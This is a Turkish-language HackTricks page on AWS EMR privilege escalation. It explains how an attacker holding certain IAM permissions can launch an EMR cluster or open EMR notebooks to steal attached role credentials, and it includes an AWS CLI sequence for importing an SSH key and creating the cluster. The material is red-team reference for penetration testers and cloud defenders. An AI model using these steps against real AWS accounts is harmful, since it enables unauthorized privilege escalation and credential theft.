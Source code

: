 # AWS - EMR Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## EMR

Daha fazla **EMR hakkında bilgi** için:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Bu izinlere sahip bir saldırgan, **EC2 rollerini ekleyerek yeni bir EMR kümesi çalıştırabilir** ve kimlik bilgilerini çalmaya çalışabilir.\
Bunu yapmak için, **hesaba ithal edilmiş bazı ssh özel anahtarlarını bilmeniz** veya bir tane ithal etmeniz ve **ana düğümde port 22'yi açabilmeniz** gerektiğini unutmayın (bunu `--ec2-attributes` içindeki `EmrManagedMasterSecurityGroup` ve/veya `ServiceAccessSecurityGroup` öznitelikleri ile yapabilirsiniz).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Not edin ki bir **EMR rolü** `--service-role` içinde ve bir **ec2 rolü** `--ec2-attributes` içinde `InstanceProfile` olarak belirtilmiştir. Ancak, bu teknik yalnızca EC2 rolü kimlik bilgilerini çalmaya izin verir (çünkü ssh üzerinden bağlanacaksınız) ama EMR IAM Rolü'nü çalamaz.

**Olası Etki:** Belirtilen EC2 hizmet rolüne privesc.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Bu izinlerle bir saldırgan **AWS konsoluna** gidebilir, bir Notebook oluşturabilir ve IAM Rolünü çalmak için erişebilir.

{% hint style="danger" %}
Notebook örneğine bir IAM rolü eklesem de, testlerimde AWS yönetilen kimlik bilgilerini çalmayı başardığımı fark ettim ve IAM rolü ile ilgili kimlik bilgilerini çalamadım.
{% endhint %}

**Olası Etki:** AWS yönetilen rolüne privesc arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Bu izinle bir saldırgan **Jupyter Notebook'a erişebilir ve ona bağlı IAM rolünü çalabilir**.\
Notebook'un URL'si `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Notebook örneğine bir IAM rolü eklesem de, testlerimde AWS yönetilen kimlik bilgilerini çalmayı başardığımı fark ettim ve IAM rolü ile ilgili kimlik bilgilerini çalamadım.
{% endhint %}

**Olası Etki:** AWS yönetilen rolüne privesc arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
